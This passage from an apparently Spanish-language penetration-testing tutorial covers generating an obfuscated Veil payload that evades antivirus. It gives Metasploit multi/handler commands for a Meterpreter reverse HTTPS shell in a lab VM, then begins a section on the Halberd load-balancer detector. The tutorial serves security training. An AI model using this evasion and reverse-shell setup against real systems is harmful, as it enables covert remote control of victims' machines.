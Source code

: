 ##### 4. Generar

Veil te generará un archivo `.bat` o `.ps1` con el payload **ofuscado y cifrado**.

##### 5. Transferirlo al objetivo (de forma simulada)

Puedes copiar este archivo a un Windows y ver que muchos antivirus **no lo detectan** (dependiendo del AV).

---

#### 💡 Nota: siempre usa estas herramientas en entornos controlados o con permisos.

---

### 🧪 Simulación en entorno seguro

Supón que tienes una **máquina Windows virtual** y una **Kali Linux** como atacante.

1. En Kali, generas el payload con Veil.
2. Configuras el `multi/handler` en Metasploit:

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST TU_IP
set LPORT 443
run
```

3. Ejecutas el payload en la VM Windows.

✅ Resultado: se abre una **sesión Meterpreter**, y **el antivirus no lo detectó**.

---

### 🚨 Consejos finales

- No todos los antivirus son iguales. Algunos detectan más rápido que otros.
- La evasión cambia constantemente. Lo que hoy funciona, mañana puede ser detectado.
- Usa sandbox o entornos virtualizados para hacer pruebas.
- Entiende cómo funciona el sistema defensivo (logs, detección heurística, comportamiento, etc.)

---

[🔼](#índice)

---

## **342. Load Balancing detector: halberd**

### ✅ ¿Qué es Halberd?

**Halberd** es una herramienta de código abierto usada para detectar si un servidor web está detrás de un **balanceador de carga**. Su propósito es ayudar a identificar cuántos servidores se encuentran realmente detrás de un nombre de dominio (por ejemplo, `www.ejemplo.com`) o dirección IP.
